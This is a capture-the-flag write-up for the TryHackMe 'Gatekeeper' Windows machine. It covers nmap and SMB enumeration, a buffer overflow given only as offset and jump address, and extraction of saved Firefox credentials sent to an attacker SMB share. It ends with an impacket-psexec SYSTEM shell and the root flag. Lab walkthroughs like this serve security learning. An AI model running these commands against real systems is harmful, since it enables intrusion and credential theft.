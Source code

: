 ```yaml
---
title: "Gatekeeper"
date: 2025-06-20
categories:
  - TryHackMe
  - Windows
tags:
  - TryHackMe
  - Windows
---
```


# Gatekeeper

<!-- more -->

## Enumeration

```bash
$ nmap -sC -Pn -T4 --min-rate 1000 -p- 10.10.249.16 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-17 00:47 CET
Nmap scan report for 10.10.249.16
Host is up (0.076s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
| ssl-cert: Subject: commonName=gatekeeper
| Not valid before: 2024-11-15T22:51:11
|_Not valid after:  2025-05-17T22:51:11
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-11-16T18:14:30-05:00
| smb2-time: 
|   date: 2024-11-16T23:14:30
|_  start_date: 2024-11-16T22:50:40
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 0
|_clock-skew: mean: 1h04m59s, deviation: 2h53m12s, median: -35m01s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Nmap done: 1 IP address (1 host up) scanned in 195.76 seconds

```

## Initial Access

`nc 10.10.249.16 31337` reveals a program that echoes anything we enter.
If we input a large number of `A`s, it crashes, indicating this is a buffer overflow machine.
We need to retrieve the program, so let's try accessing SMB shares without credentials.

```bash
$ smbclient --no-pass -L //10.10.249.16          
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
                                                                                                                                    
$ smbclient --no-pass //10.10.249.16/Users
Try "help" to get a list of possible commands.
                     
smb: \> ls
  .                                  DR        0  Fri May 15 03:57:08 2020
  ..                                 DR        0  Fri May 15 03:57:08 2020
  Default                           DHR        0  Tue Jul 14 09:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:54:24 2009
  Share                               D        0  Fri May 15 03:58:07 2020

smb: \> cd Share
smb: \Share\> ls
  .                                   D        0  Fri May 15 03:58:07 2020
  ..                                  D        0  Fri May 15 03:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 07:27:17 2020

                7863807 blocks of size 4096. 3984765 blocks available
smb: \Share\> get gatekeeper.exe
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (22.5 KiloBytes/sec) (average 14.9 KiloBytes/sec)
smb: \Share\> exit
```

We have the file. Now, create the exploit on a Win32 machine.

- offset -> `146`
- bad chars -> `0x00`, `0x0A`
- jump address -> `080414C3`

Now we can retrieve the user flag.

## Privilege Escalation

We find a `Firefox.lnk` file in the user's desktop folder, so we attempt to extract credentials from Firefox.
Navigate to `C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles`.

On Kali, create an SMB share with `impacket-smbserver -smb2support -user 'test' -password 'test' kali \`pwd\``.

Copy the profile folder to Kali:

```bash
copy lfjfn812a.default-release z:\
```

Next, install [`firefox_decrypt`](https://github.com/unode/firefox_decrypt):

```bash
git clone https://github.com/unode/firefox_decrypt.git
                                                                                                  
python3 firefox_decrypt.py /home/kali
2024-11-17 17:44:37,595 - WARNING - profile.ini not found in /home/kali
2024-11-17 17:44:37,595 - WARNING - Continuing and assuming '/home/kali' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

With these credentials, we try `nxc`:

```bash
nxc smb 10.10.92.113 -u 'mayor' -p '8CL7O1N78MdrCIsV'
SMB         10.10.92.113    445    GATEKEEPER       [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:GATEKEEPER) (domain:gatekeeper) (signing:False) (SMBv1:True)
SMB         10.10.92.113    445    GATEKEEPER       [+] gatekeeper\mayor:8CL7O1N78MdrCIsV (Pwn3d!)
```

Using `impacket-psexec`:

```bash
$ impacket-psexec 'mayor':'8CL7O1N78MdrCIsV'@10.10.92.113 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.92.113.....
[*] Found writable share ADMIN$
[*] Uploading file FMkKbYVP.exe
[*] Opening SVCManager on 10.10.92.113.....
[*] Creating service aYIa on 10.10.92.113.....
[*] Starting service aYIa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

```bash
C:\Windows\system32> cd C:\Users\mayor\desktop
 
C:\Users\mayor\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\mayor\Desktop

05/14/2020  08:58 PM    <DIR>          .
05/14/2020  08:58 PM    <DIR>          ..
05/14/2020  08:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  16,385,642,496 bytes free

C:\Users\mayor\Desktop> type root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}
```
